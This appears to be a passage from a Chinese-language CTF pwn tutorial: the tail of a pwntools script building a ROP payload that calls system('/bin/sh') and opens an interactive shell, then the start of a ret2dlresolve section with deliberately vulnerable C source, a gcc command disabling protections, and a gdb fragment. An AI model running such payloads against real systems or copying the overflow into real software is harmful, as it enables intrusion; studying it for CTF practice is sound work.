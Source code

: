 ```plain

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) + p64(stop_gadget)

#pwnlib.gdb.attach(proc.pidof(p)[0]) 
p.sendline(payload)
p.interactive()
```

## ret2dlresolve

### 利用

源码：

```plain
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

编译：

```plain
gcc -fno-stack-protector -m32 -z norelro -no-pie resolve.c -o resolve32
```

gdb调试

```plain
$disass main
...
   0x08048564 <+101>:   lea    eax,[ebp-0x6c]
   0x08048567 <+104>:   push   eax
   00x08048568 <+105>:  call   0x8048390 <strlen@plt>
...
```
